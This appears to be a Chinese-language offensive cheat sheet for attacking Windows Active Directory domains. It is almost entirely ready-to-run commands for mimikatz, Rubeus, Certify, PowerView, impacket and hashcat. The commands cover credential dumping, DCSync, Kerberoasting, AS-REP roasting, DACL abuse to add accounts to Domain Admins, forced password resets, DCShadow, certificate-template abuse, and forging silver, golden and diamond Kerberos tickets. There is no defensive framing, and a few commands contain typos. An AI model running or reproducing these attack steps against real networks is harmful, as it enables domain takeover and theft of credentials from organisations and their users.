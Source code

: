 ### BloodHound

[BloodHound](https://github.com/SpecterOps/BloodHound)

```bash
sudo apt install neo4j
sudo apt install bloodhound
neo4j console
```

web: http://localhost:7474 (neo4j/neo4j)

[SharpHound](https://github.com/SpecterOps/SharpHound)

```bash
runas /user:用户名@域 powershell
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -ZipFileName data.zip
or
SharpHound.exe --CollectionMethods All
```

data.zip --> C:\Windows\System32

```bash
bloodhound
```

### 滥用信任账户

```bash
Get-ADTrust -Filter *
.\mimikatz.exe "lsadump::trust /patch" "exit"

mimikatz:
sekurlsa::pth /user:administrator /domain:kali.com /rc4:HASH /run:powershell.exe
```

### 影子凭证

[Whisker](https://github.com/eladshamir/Whisker/)

[Rubeus](https://github.com/GhostPack/Rubeus)

```bash
.\Whisker.exe add /target:backdoor -->command
runas /user:backdoor@admin.com powershell
Rubeus.exe command
```

### DCShadow

```bash
psexec -s cmd
or
Mimikatz:
!+
!processtoken
```

```bash
lsadump::dcshadow /object:snowwolf /attribute:primaryGroupID /value:512
```

```bash
psexec admin.com/administrator -s cmd

mimikatz:
lsadump::dcshadow /push

net user snowwolf /domain
```

### 伪造证书签名提权

[Certify](https://github.com/GhostPack/Certify)

```bash
.\certify.exe find /vulnerable
certify.exe request /ca:证书服务器 /template:易受攻击证书模板名 /altname:新证书用户
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
.\Rubeus.exe s4u /certificate:证书.pfx /impersonate:krbtgt /msdsspn:HOST/域控制器主机名.域名 /dc:域控制器IP /ptt
```

### 滥用DACL

1. 通用所有权限

```bash
Import-Module PowerSploit/Recon/PowerView.ps1
Get-ObjectAcl -SamAccountName snowwolf -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericAll"}
net group "domain admins" snowwolf /add /domain

net rpc group addmem "Domain Admins" "snowwolf" -U admin.com/snowwolf%'123qwe!@#' -S 域控主机IP地址
net rpc group members "Domain Admins" -U admin.com/snowwolf%'123qwe!@#' -S 域控主机IP地址
```

2. Kerberoasting攻击

```bash
Import-Module PowerSploit/Recon/PowerView.ps1
Get-DomainUser 'snowwolf' | Select serviceprincipalname
Set-DomainObject -Identity 'snowwolf' -Set @{serviceprincipalname='ghostwolflab/superwolf'}
$User = Get-DomainUser 'snowwolf'
$User | Get-DomainSPNTicket

hashcat -a 0 -m 13100 hash passwd.txt
setspn -d  ghostwolflab/superwolf snowwolf
```

3. 强制更改密码

```bash
Import-Module PowerSploit/Recon/PowerView.ps1
$NewPassword = ConvertTo-SecureString 'Password1234' -AsPlainText -Force
Set-DomainUserPassword -Identity 'snowwolf' -AccountPassword $NewPassword
```

Mimikatz:

```bash
lsadump::setntlm /server:admin.com /user:snowwolf /password:123qwe!@#
```

4. AllExtendedRights

```bash
net rpc password snowwolf '123qwe!@#' -U admin.com/administrator%'123qwe!@#' -S 域控主机IP地址
```

5. WriteOwner

```bash
net rpc group addmem "Domain Admins" snowwolf -U admin/snowwolf%'123qwe!@#' -S 域控主机IP地址
net rpc group members "Domain Admins" -U admin.com/snowwolf%'123qwe!@#' -S 域控主机IP地址
```

6. WriteDacl

```bash
Import-Module PowerSploit/PowerSploit.psd1
Add-DomainObjectAcl -Rights 'All' -TargetIdentity "adminitrator" -PrincipalIdentity "snowwolf"
```

7. GenericWrite

```bash
net rpc group addmem "Domain Admins" snowwolf -U admin/snowwolf%'123qwe!@#' -S 域控主机IP地址
```

### DCSync转储凭据

```bash
Import-Module PowerSploit/PowerSploit.psd1
Add-ObjectACL -PrincipalIdentity snowwolf -Rights DCSync
```

```bash
runas /user:snowwolf powershell
whoami /all
Get-ObjectAcl -Identity "dc=admin,dc=com" -ResolveGUIDs | ? {$_.SecurityIdentifier -match "snowwolf用户SID值"}

snowwolf Mimikatz:

```
lsadump::dcsync /user:krbtgt
```

### AS-REP Roasting

```bash
Import-Module PowerSploit/PowerSploit.psd1
Get-DomainUser -PreauthNotRequired -verbose
```

1. Rubeus

```bash
.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.txt /user:snowwolf
```

2. impacket-GetNPUsers

```bash
impacket-GetNPUsers -dc-ip 域控主机IP地址 admin.com/snowwolf -format john -outputfile hashes
john -w=/home/snowwolf/Desktop/passwd.txt hashes
```

3. Metasploit框架

```bash
use uxiliary/gather/asrep
set domain
set rhosts
set username
run
```

### Kerberos

1. Kerberos银票

```bash
mimikatz:
privilege::debug
sekurlsa::logonpasswords
```

```bash
whoami /user
```

|SERVICE|Service Ticket|
|----|----|
|WMI|HOST</br>RPCSS|
|PowerShell Remoting|HOST</br>HTTP</br>WSMAN</br>RPCSS|
|WinRM|HOST</br>HTTP|
|Scheduled Tasks|HOST|
|Windows File Share|CIFS|
|LDAP operations, included DCSync|LDAP|
|Windows Remote Server Administration Tools|RPCSS</br>LDAP</br>CIFS|
|Golden Tickets|krbtgt|


```bash
mimikatz:
kerberos::golden /sid:SID值 /domain:admin.com /target:administrator.admin.com /service:cifs /rc4:NTLM值 /user:administrator  /ptt

klist
```

```bash
mimikatz:
kerberos::golden /sid:SID值 /domain:admin.com /target:administrator.admin.com /service:cifs /rc4:NTLM值 /user:administrator
Rubeus.exe ptt /ticket:ticket.kirbi
```

2. Kerberos金票

```bash
mimikatz:
privilege::debug
lsadump::lsa /inject /name:krbtgt
kerberos::golden /domain:admin.com /sid:SID值 /rc4:NTLM /user:administrator /id:500 /ptt

klist
```

3. Kerberos钻石票

```bash
mimikatz:
privilege::debug
lsadump::lsa /inject /name:krbtgt
Rubeus.exe diamond /krbkey:AES加密密钥 /user:snowwolf /password:123qwe!@# /enctype:aes256 /domain:admin.com /ticketuser:administrator /ptt /nowrap
rubeus.exe asktgs /ticket:TGT凭证 /service:cifs/主机名.admin.com /ptt /nowrap
klist
```
